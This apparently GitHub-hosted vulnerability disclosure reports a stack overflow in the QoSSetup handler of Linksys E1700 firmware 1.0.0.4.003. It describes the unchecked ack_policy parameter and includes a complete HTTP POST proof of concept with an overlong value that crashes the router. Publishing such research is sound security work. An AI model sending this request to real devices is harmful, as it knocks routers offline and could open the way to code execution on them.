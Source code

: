 # Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `QoSSetup` function, `ack_policy` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ack_policy` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `ack_policy` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `ack_policy` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/QoSSetup HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/advanced/qos.shtml;session_id=4Q7VlgwbXwVfcVqZCdEaMFApaI9xlNUp
Cookie: FSSBBIl1UgzbN7N80T=10AvEXQLoH_LTmuvzkUgS7anfnAFAZXlQ.4PMSCFs3avj98CUbW5VYXmf4CkeSpLPaWxcQ000fJAH3_BOkD7VykscSuQJfxEIZbHIOwMJVLj9vWKrmgvvmPoa1KPJ3tYwIoQdq46yNEXN5dq7oZPOz5tTcDb4Nuw9qNaWSCoAnSAbounMM_u0bVaK.j00N.1T4u9XeFlZLMuY9MxXFOGPyvoHWdW0a6Bx7Mt86gLuuve7q.yaVnqOKvGvDgL3AzdKWNdO5YiPu_4RNlsYNe4m7bcnw6hDsdmjrfDZxwqCUN_8oA; FSSBBIl1UgzbN7N80S=.iPMLVrFLUcIxtwVKrClZYGZBzGzC149V9FiutQKysXJDYBDCqewOf5IavZkllZz; XSRF_TOKEN=1443376541; session_id=wxymTijRhkqwLcDL0EkyY62Yjw1n3Tkx
Upgrade-Insecure-Requests: 1

token=Zn7M5OzGSJ3qEamD393O&wmm_en=1&ack_policy=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&qos_en=0&qos_uptype=1&qos_upspeed=0k&qos_list=
```



## Result

The target router crashes and cannot provide services correctly and persistently.

